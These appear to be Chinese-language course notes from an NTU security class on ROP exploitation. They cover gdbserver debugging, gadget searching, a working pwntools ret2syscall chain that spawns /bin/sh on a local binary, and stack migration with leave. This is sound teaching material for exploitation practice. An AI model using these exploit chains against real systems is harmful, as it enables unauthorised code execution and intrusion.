

# NTU STCS 2016 0x02 ROP


# gdbserver

```bash
# in bash commandline
gdbserver 127.0.0.1:4000 ./binary #break在entrypoint
# in gdb commandline
gdb ./binary
$ target remote 127.0.0.1:4000
$ continue
# 搭配ncat
ncat -vc 'gdbserver 127.0.0.1:4000 .binary' -kl 127.0.0.1 5000
```

**trick**

使用gdbscript attach pid

```bash
# .gdbinit
set disassembly-flavor intel
define at
  shell echo attach $(pidof -s $arg0) > /tmp/foo.gdb
  source /tmp/foo.gdb
end
```

* * *

# rop

类型包括:ret2syscall ret2text ret2libc

## rop2syscall

- 找gadget控制syscall需要的regs(eax,ebx,ecx,edx)
- 需要int 80

**RopGadget**

```bash
#usage
RopGadget --binary ./binary
#int 80 ; ret
RopGadget --binary ./binary --opcode cd80c3
```

> PS:execve需要'/bin/sh'，且地址必须已知
> 用read吧需要的字符串输入至已知地址的buffer上

找可写page用于read(0,buf_addr,len)中的buf_addr
一般用bss最后一页即可

```bash
cat /proc/`pidof binary`/maps
readelf -a binary | less # 看Section Headers中的.bss
```

eg.

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
p = process('./p1')
elf = ELF('./p1')
g = lambda x: next(elf.search(asm(x)))
pop_eax_ret = g('pop eax ; ret') # 0x080b8126
pop_ebx_ret = g('pop ebx ; ret') # 0x080481c9
pop_ecx_ret = g('pop ecx ; ret') # 0x080de849
pop_edx_ret = g('pop edx ; ret') # 0x0806edca
int_0x80_ret = g('int 0x80 ; ret')
buf = 0x080eb000 - 100
raw_input('@')
offset = 62
# read(0, '/bin/sh\x00', 100)
rop1 = [
 pop_eax_ret,
 3,
 pop_ebx_ret,
 0,
 pop_ecx_ret,
 buf,
 pop_edx_ret,
 100,
 int_0x80_ret,
]
# execve('/bin/sh\x00', 0, 0)
rop2 = [
 pop_eax_ret,
 0xb,
 pop_ebx_ret,
 buf,
 pop_ecx_ret,
 0,
 pop_edx_ret,
 0,
 int_0x80_ret
]
payload = 'A' * offset + ''.join(map(p32, rop1)) + ''.join(map(p32, rop2))
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()
```

### 使用较长的gadget



**leave指令**

```x86asm
#leave
mov   esp, ebp
pop   ebp
```

**Trick: Stack Migration**

- 使用leave把栈放到已知位置
- 确定rop chain的位置时可以直接附加其他data
- 可以无限rop
- migrate后的空间要足够

```python
gadget1 = 0x8048898
# gadget1 has gets() and leave_ret
# 8048898:       50                      push   eax
# 8048899:       e8 e2 69 00 00          call   804f280 <_IO_gets>
# 804889e:       83 c4 10                add    esp,0x10
# 80488a1:       90                      nop
# 80488a2:       c9                      leave
# 80488a3:       c3                      ret
migration = [
    pop_ebp_ret,
    buf - 4,  #leave会pop ebp，所以要控制到buf-4位置
    pop_eax_ret,
    buf,
    gadget1,
]
rop = [
    pop_eax_ret,
    0xb,
    pop_ebx_ret,
    buf + 9 * 4,  #ropchain一共有9*4bytes
    pop_ecx_ret,
    0,
    pop_edx_ret,
    0,
    int_0x80_ret
]
payload1 = 'A' * offset + ''.join(map(p32, migration))
payload2 = ''.join(map(p32, rop)) + '/bin/sh\x00'
```

